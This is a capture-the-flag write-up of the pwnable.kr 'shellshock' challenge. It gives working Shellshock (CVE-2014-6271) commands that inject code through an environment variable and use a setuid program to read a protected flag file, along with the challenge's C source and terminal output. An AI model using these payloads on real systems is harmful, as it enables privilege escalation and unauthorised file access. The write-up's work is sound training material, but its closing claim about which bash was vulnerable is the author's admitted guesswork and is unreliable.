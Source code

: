 ## shellshock

Back in 2014 a vulnerability was found in bash that would allow an attacker to execute bash commands from an environment variable. You can test if a version of bash is vulnerable to it by running the following:

```
env var='() { ignore this;}; echo vulnerable' ./bash -c /bin/true
```

When we run `ls` we find that they gave us a custom version of bash other than the one on the system, this probably tells us that the bash script is vulnerable to something and if we run the above command we'll find that it's definitely vulnerable to shellshock (shocker).

Source code:
```
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

Since shellsock.c tells us that the /home/shellshock/shellshock program sets the effective user and group id as the effetive group id of ./shellshock (which has the suid bit set for the group level to give us shellshock_pwn) we can use the vulnerable version of bash to also run commands from environment variables that will be run as a user with the shellshock_pwn group, which lets us read the flag.

And we run the command...

```
shellshock@pwnable:~$ env x='() { :;}; id' ./bash -c "./shellshock"
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
Segmentation fault (core dumped)
```
... and it doesn't work. Hmmm...

Let's try and find this version number of bash:

```
shellshock@pwnable:~$ strings bash | grep version
shell_version_string
build_version
sccs_version
rl_library_version
rl_do_lowercase_version
show_shell_version
rl_readline_version
dist_version
GNU bash, version %s-(%s)
GNU bash, version %s (%s)
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
@(#)Bash version 4.2.25(1) release GNU
display-shell-version
      -l        do not print tilde-prefixed versions of directories relative
    HOSTTYPE    The type of CPU this version of Bash is running under.
    OSTYPE      The version of Unix this version of Bash is running on.
    version, type `enable -n test'.
do-lowercase-version
.gnu.version
.gnu.version_r

```

Let's see what Bash 4.2.25(1) is vulnerable to by googling it, because my intuition has failed. 

That didn't turn anything out either, but I randomly tried tihs and it worked.

```
shellshock@pwnable:~$ export badvar='() { :;}; ./bash -c /bin/cat flag'
shellshock@pwnable:~$ bash -c ./shellshock
```

I misunderstood how this exploit worked, the program running shellshock didn't need to be vulnerable. In fact, I was able to replicate this entirely without using the given version of bash at `/home/shellshock/bash`

```
shellshock@pwnable:~$ export badvar='() { :;}; /bin/bash -c "/bin/cat flag"'
shellshock@pwnable:~$ /bin/bash -c ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
shellshock@pwnable:~$ bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

So the version of bash on this system is vulnerable to this, and maybe that binary was only given to us as a hint?

